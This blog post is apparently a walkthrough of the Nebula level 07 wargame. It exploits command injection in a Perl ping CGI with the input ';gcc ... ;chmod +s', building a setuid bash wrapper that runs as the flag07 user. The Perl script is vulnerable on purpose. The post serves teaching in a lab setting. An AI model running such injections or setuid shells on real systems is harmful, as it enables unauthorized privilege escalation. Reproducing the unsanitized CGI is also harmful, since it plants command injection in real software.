 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 07"
date: 2011-12-08T06:10:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


This [next challenge](http://exploit-exercises.com/nebula/level07) is a little bit more tricky than some of the previous ones.  There's a lot more code involved, but it's not too bad.

<!-- more -->

In the flag07 home directory, you'll find the configuration for a simple http server, thttpd.conf.  Inside, you'll find that it's running an HTTP server on port 7007 as the flag07 user.  This is where the perl script that is provided comes in.

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
 $host = $_[0];

 print("<html><head><title>Ping results</title></head><body><pre>");

 @output = `ping -c 3 $host 2>&1`;
 foreach $line (@output) { print "$line"; } 

 print("</pre></body></html>");  }  # check if Host set. if not, display normal page, etc  

 ping(param("Host"));
```

You can now browse to this script by going to http://<nolink>10.1.1.16:7007/index.cgi (assuming your Nebula VM is running on 10.1.1.16).  Unfortunately, since no parameters are being passed, it presents us with the usage of ping. 

```
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
```

The perl script takes a parameter named "Host", and pipes it into the ping command.  Because of how poorly the perl script was written, we can inject more commands in there.  To make it easy, I made a quick HTML document to assist, so I didn't have to do the encoding of spaces and symbols. 

```
<html> <body>
  <form action="http://10.1.1.6:7007/index.cgi" method="get">
   <input name="Host" id="Host" type="text" />
   <input type="submit" />
  </form>
 </body>
</html>
```

Now I can open that html file in my browser of choice, and when I submit, it'll automatically do all the encoding for me, so I can just worry about the injection. 

In addition to the html page, I also modified my level03.c from a prior post, to make it more generic.  I saved this file as /tmp/bash_id.c: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

This modified source file now takes a parameter of the user id you want to impersonate.  I want to impersonate the flag07 user, so I checked out the /etc/passwd file. 

```
level07@nebula:/tmp$ cat /etc/passwd | grep flag07
flag07:x:992:992::/home/flag07:/bin/sh
```

Now I know that flag07 is also user 992. 

I opened the html file that I made, and in the textbox typed:  

```
;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07
```

When I clicked the submit button, it sent the final command of:  

```
ping -c 3 ;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07 2>&1
```

It makes the ping program have incorrect usage, thus ending quickly.  It then compiles my newly written bash_id.c script, and places the executable in the /home/flag07 folder, and marks it executable and SUID.  From here, it was just as simple as executing that program with the 992 parameter, and running "getflag".

```
level07@nebula:/home/flag07$ ./level07 992
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```